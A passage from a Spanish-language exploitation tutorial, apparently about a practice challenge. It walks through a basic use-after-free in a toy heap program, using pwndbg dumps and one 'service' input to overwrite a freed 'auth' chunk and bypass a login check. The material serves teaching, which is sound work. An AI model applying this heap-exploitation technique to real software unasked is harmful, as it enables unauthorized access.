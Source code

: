 0x804c008:  0x00    0x00    0x00    0x00    0x0a    0x00    0x00    0x00 
0x804c010:  0x00    0x00    0x00    0x00    0xf1
```
Aqui ya se puso interesante la cosa, el objeto del heap esta alli (de ```0x11``` a ```0xf1``` el cual ```0xf1``` es llamado ```top chunk```), pero nuestro input ya no esta, entonces ahora veremos que pasa si creamos un nuevo objeto en el heap usando ```service``` pero pasandole un tamaño mas grande que 16 bytes, esto lo podemos hacer ya que la memoria despues de ```free()``` esta disponible para volverla a asignar:

```
[ auth = 0x804c818, service = (nil) ]
service AAAAAAAAAAAAAAAAAA
```

Podemos ver como se asigno en el espacio anterior, osea en ```auth```, esto es ya que tiene la misma direccion: ```0x804c818```, pero eso no es todo, tambien logramos sobreescribir ```auth->auth``` gracias a ```service``` , esto lo podemos ver si mostramos unos cuantos bytes desde ```0x804c818```:

```
pwndbg> x /64xb 0x804c818
0x804c818:	0x20	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x804c820:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x804c828:	0x61	0x61	0x61	0x0a	0x00	0x00	0x00	0x00
0x804c830:	0x00	0x00	0x00	0x00	0xd1	0x07	0x00	0x00
0x804c838:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c840:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c848:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c850:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
```
Podemos ver como en la direccion ```0x804c828``` que es la de ```auth->auth``` ahora contiene ```0x61	0x61	0x61``` de mas


Y ahora aun que el objeto del heap se libero, el puntero a ```auth->auth``` no se anulo, y aun se usa, y dará como resultado un valor diferente de 0, asi que si continuamos la ejecucion vemos como ya obtuvimos la flag:

```
pwndbg> c
Continuing.
you have logged in already!
```

Y si fue como explotamos un UAF basico aprovechandonos de una sobreescritura con ```service``` para usar usar un ```chunk``` liberado anteriormente el cual ahora es llamado ```free chunk```

Eso ha sido todo, y tranquilo si no llegaste a entender lo que pasaba, por que ni yo ni nadie entiende estas cosas a la primera, pero con tiempo y diciplina se puede lograr. Realmente no me gustaria que te frustraras por algo asi, tu puedes. Gracias por leer ❤
